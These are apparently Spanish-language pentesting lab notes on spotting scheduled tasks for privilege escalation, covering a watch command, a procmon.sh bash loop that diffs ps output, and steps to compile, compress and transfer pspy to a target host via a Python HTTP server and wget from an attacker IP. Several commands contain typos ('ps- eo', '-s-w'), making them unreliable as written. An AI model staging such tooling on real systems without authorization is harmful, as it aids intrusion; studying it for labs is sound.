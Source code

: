 ** Monitorización de tareas en segundo plano ejecutándose a intervalos regulares **
`watch -d "ls /mnt/smbMounted/Users/Public/*; ls /mnt/smbMounted/ZZ_Archive/s4vitar/*"`

==================================================================

** procmon.sh **
``` bash
	
	#!/bin/bash
	
	old_process=$(ps- eo command)
	
	while true; do
		new_process=$(ps- eo command)
		diff <(echo "$old_process") <(echo "$new_process") | grep "[\>\<]" | grep -v -E "procmon|command"
		old_process=$new_process
	done
```
En la variable old_process se almacena la salida de ps -eo command. Lo mismo sucede con new_process.
Las dos variables son comparadas con diff para ver qué procesos han cambiado.
Se representarán con > comandos que aparecen nuevos y con < los que desaparecen.
No mostramos los comandos procmon y command ya que son los utilizados por el script.

==================================================================

** Uso de pspy para la detección de procesos/comandos que se ejecutan a nivel de sistema **
https://github.com/DominicBreuker/pspy

> `cd /opt`
> `go get https://github.com/DominicBreuker/pspy/cmd`
> `GOOS=linux GOARCH=amd64 go build .`
> Reducción del peso del binario:
> `du -hc pspy`
>  `GOOS=linux GOARCH=amd64 go build -ldflags "-s-w" .`
>  `upx brute pspy`
>  Transferir pspy a la máquina objetivo:
>  `python -m SimpleHTTPServer`
>  `wget http://10.10.14.55:8000/pspy`
>  Ejecutar:
>  `chmod +x pspy`
>  `./pspy`

==================================================================

